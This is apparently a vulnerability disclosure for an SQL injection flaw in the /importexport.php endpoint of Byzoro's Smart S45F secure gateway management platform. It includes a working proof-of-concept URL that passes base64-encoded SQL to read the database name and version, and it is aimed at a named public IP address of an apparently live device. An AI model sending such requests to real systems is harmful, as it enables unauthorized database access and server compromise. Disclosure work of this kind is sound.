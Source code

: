 Byzoro's Smart S45F Multi-Service Secure Gateway Intelligent Management Platform has a front-end SQL injection vulnerability.

## 1. Vulnerability Description:
Beijing Byzoro Network Technology Co., Ltd. (https://byzoro.com/) is a high-tech company committed to building the next generation of secure internet.
Byzoro's Smart S45F Multi-Service Secure Gateway Intelligent Management Platform has an SQL injection vulnerability. Attackers can exploit this vulnerability to access sensitive database information, obtain server permissions, and manipulate server files.

## 2. Affected Component:
Smart S45F

## 3. Vulnerability Location:
/importexport.php

## 4. Vulnerability Reproduction:
IP: https://103.121.164.62:8443/
![image-bz1](images/smart1.png)

As shown in the login interface.

Construct POC, successfully obtaining the database name and version:
https://103.121.164.62:8443/importexport.php?sql=c2VsZWN0IDEsZGF0YWJhc2UoKSx2ZXJzaW9uKCk=&type=exportexcelbysql

![image-bz2](images/smart2.png)
